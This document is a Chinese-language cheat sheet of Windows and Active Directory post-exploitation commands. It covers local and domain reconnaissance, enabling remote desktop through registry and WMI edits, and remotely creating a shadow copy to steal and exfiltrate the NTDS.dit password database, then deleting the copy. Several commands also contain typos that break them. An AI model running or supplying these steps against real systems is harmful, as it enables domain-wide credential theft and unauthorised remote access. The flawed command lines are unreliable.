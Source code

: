 ### 收集本机信息

#### 查询当前权限

```
whoami
whoami /all
```

#### 查询网络配置信息

```
ipconfig /all
```

#### 查询操作系统及软件信息

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

#### 查看系统体系结构

```
echo %PROCESSOR_ARCHITECTURE%
```

#### 查看安装的软件及版本、路径等

```
wmic product get name,version
```

```powershell
powershell "Get-WmiObject -class Win32_Product |Select-Object -Property name,version"
```

#### 查询本机服务信息

```
wmic service list brief
```

#### 查询进程列表

```
tasklist
wmic process list brief
```

#### 查看启动程序信息

```
wmic startup get command,caption
```

#### 查看计划任务

```
schtasks /query /fo LIST /v
```

#### 查看主机开机时间

```
net statistics workstation
```

#### 查询用户列表

```
net user  获取本机用户
net localgroup administrators 获取管理员用户
```

#### 查看当前在线用户

```
query user || qwinsta
```

#### 列出或断开本地计算机与所连接的客户端之间的对话

```
net session
```

#### 查询端口列表

```
netstat -ano
```

#### 查看补丁列表

```
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

#### 查询本机共享列表

```
net share
wmic share get name,path,status
```

#### 查询路由表及所有可用接口的ARP缓存表

```
route print
arp -a
```

#### 查看代理情况

```
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings"
```

#### 查看远程连接端口

```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber
```

#### Windows  Server 2003 开启3389端口

```
wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

#### Windows Server 2008 和 Windows Server 2012 开启3389端口

```
wmic /namespace:\\root\cimv2\terminalservices path wim32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1

wmic /namespace:\\root\cimv2\terminalservices path wim32_terminalservicesetting where (TerminalName='RDP-Tcp') call setuserauthenticationrequired 1

reg add "HKLM\SYSTEM\CURRENT\CONTROLSET\CONTROL\TERMINAL SERVER" /v fSingleSessioonPerUser /t REG_DWORD /d 0 /f
```

### 收集域内基础信息

#### 查询域

```
net view /domain
```

#### 查询域内用户组

```
net group /domain
```

#### 查询域成员计算机

```
net group "domain computers" /domain
```

#### 查询域用户组

```
net group "domain users" /domain
```

#### 查询域管理员组

```
net group "domain admins" /domain
```

#### 查询域控制器组

```
net group "domain controllers" /domain
netdom query pdc
```

#### 获取域信任信息

```
nltest /domain_trusts
```

#### 获取域密码策略等信息

```
net accounts /domain
```

#### 查看域控制器的机器名

```
nltest /DCLIST:域名
```

#### 查看域控制器的主机名

```
nslookup -type=SRV _ldap._tcp
```

#### 查看当前时间

```
net time /domain
```

#### 获取域内用户和管理员信息

```
net user /domain
```

#### 获取域内用户的详细信息

```
wmic useraccount get /all
```

#### 查看存在的用户

```
dsquery user
```

#### 查询本地管理员组用户

```
net localgroup administrators
```

### dump域内hash

#### 列出卷影拷贝信息

```
wmic /node:<ip> process call create "cmd.exe /c vssadmin list Shadows > c:\windows\temp\1.txt"
```

#### 创建卷影拷贝

```
wmic /node:<ip> process call create "cmd.exe /c vssadmin create shadow /for=C: > c:\windows\temp\1.txt"
```

#### 复制卷影拷贝的ntds.dit

```
wmic /node:<ip> process call create "cmd /c copy \\?\卷影副本卷名\Windows\NTDS\NTDS.dit C:\windows\temp
```

#### 复制到本地

```
copy \\ip\c$\windows\temp\ntds.dit .\
```

#### 删除

```
del \\ip\c$\windows\temp\ntds.dit
```

### 导出域镜像

```
adexplorer.exe /accepteula -snapshot "" ad.dat -noconnectprompt
```